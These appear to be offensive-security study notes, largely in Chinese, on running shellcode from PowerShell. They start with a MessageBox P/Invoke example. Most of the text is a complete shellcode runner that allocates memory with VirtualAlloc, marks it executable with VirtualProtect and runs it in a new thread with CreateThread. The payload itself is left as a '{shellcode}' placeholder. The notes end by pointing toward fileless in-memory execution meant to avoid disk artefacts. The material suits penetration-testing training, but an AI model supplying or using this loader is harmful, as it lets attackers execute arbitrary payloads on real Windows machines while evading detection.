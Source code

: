 # PowerShell Shellcode Runner
## Calling Win32 APIs from PowerShell
- Win32 API 方法就如同在VBA引入一樣，只是在使用上就如同C#，需要重新建構資料結構、函式
- 其中又以C# 中 System.Runtime.InteropServices 可以支援平台中的調用。
### MessageBox
- C language
`int MessageBox( HWND hWnd, LPCTSTR lpText, LPCTSTR lpCaption, UINT uType);`
- C# Invoke
`[DllImport("user32.dll", SetLastError = true, CharSet= CharSet.Auto)]
public static extern int MessageBox(int hWnd, String text, String caption, uint type);`
#### Example
```
$User32 = @"
using System;
using System.Runtime.InteropServices;
public class User32 {
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int MessageBox(IntPtr hWnd, String text,
String caption, int options);
}"@
Add-Type $User32 
```
- Add-Type 會以指定的編譯器來編譯原始程式碼。 預設為CSharp 編譯器
- `[User32]::MessageBox(0, "This is an alert", "MyBox", 0)`
### Porting Shellcode Runner to PowerShell
```
$Win32 = @"using System;using System.Runtime.InteropServices;public class Win32 {
[DllImport("kernel32.dll")]public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll",CharSet=CharSet.Ansi)]public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("kernel32.dll")]public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
[DllImport("kernel32.dll", SetLastError=true)] public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);} 
"@

Add-Type $Win32 

Enum PageProtection{
PAGE_NOACCESS = 0x01
PAGE_READONLY = 0x02
PAGE_READWRITE = 0x04
PAGE_WRITECOPY = 0x08
PAGE_EXECUTE = 0x10
PAGE_EXECUTE_READ = 0x20
PAGE_EXECUTE_READWRITE = 0x40
PAGE_EXECUTE_WRITECOPY = 0x80
PAGE_GUARD = 0x100
PAGE_NOCACHE = 0x200
PAGE_WRITECOMBINE = 0x400
}

[Byte[]] $buf = {shellcode}

$oldflag = [UInt32]0
$size = $buf.Length

[IntPtr]$addr = [Win32]::VirtualAlloc(0,$size,0x3000,[PageProtection]::PAGE_READWRITE.value__);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
[Win32]::VirtualProtect($addr,[UInt32]3,[PageProtection]::PAGE_EXECUTE_READ.value__,[ref]$oldflag);
$thandle=[Win32]::CreateThread(0,0,$addr,0,0,0);
[Win32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF");
```
- Porting Shellcode 的方式會暫時產生編譯暫存檔所以不是真正的無檔案執行的方式
- `[appdomain]::currentdomain.getassemblies() | Sort-Object -Property fullname | Format-Table fullname`
- ![圖片1](https://user-images.githubusercontent.com/81568292/137419802-eed0c07c-fbc1-47a4-bd32-dd82eda43167.png)
## Keep PowerShell in Memory
- Add-Type 關鍵字讓我們可以使用 .NET 框架來編譯 C# 包含 Win32 API 定義的呼叫的程式碼。
- 編譯過程是由 Visual C# 編譯器執行，但這樣的行為，C#程式碼和編譯後的暫存將會寫入硬碟中，就沒有達到無檔案的方式。
- 為了讓程式碼持續留存在記憶體中而不被寫入硬碟，必須改用UnsafeNativeMethods尋找已存在的函式直接調用
- 利用兩種函式**GetModuleHandle、GetProcAddress**尋找存在於 Win API 中的其他函式。
